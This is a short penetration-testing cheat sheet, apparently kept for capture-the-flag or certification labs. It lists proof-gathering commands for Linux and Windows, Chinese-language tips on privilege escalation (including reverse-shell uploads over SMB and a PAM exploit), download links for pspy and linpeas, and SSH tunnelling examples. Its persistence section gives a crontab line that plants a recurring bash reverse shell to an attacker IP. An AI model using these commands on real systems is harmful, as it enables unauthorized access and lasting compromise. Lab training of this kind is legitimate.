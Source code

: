 # Proof

_Linux_

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

_Windows_

```powershell
 echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```


# Some tips

tips1: pspy发现的定时任务命令，可以用grep搜索一下，可能隐藏在某个脚本文件中。
tips2: 查看ls命令借助--full-time这个flag可以判断哪些文件，人为修改过
tips3: tmux session attach
tips4: smb可以尝试上传reverse shell， 然后通过web触发哦，`不要将不同的服务割裂开看`
tips5: 在home cache目录发现这个文件`motd.legal-displayed`考虑PAM提权。 https://www.exploit-db.com/exploits/14339. PAM 1.1.0 suffer privilege escalation vuln.

# Download Tool
pspy64
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

pspy32
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

linpeas
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
# Persistence

_Crontab_

```bash
(crontab -l ; echo "*/3 * * * *   	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

# Port Forward

## SSH

```bash
# local port forwarding

# the target host 192.168.0.100 is running a service on port 8888

# and you want that service available on the localhost port 7777

ssh -L 7777:localhost:8888 user@192.168.0.100

# remote port forwarding

# you are running a service on localhost port 9999

# and you want that service available on the target host 192.168.0.100 port 12340

ssh -R 12340:localhost:9999 user@192.168.0.100

# Local proxy through remote host

# You want to route network traffic through a remote host target.host

# so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001

ssh -C2qTnN -D 12001 user@target.host
```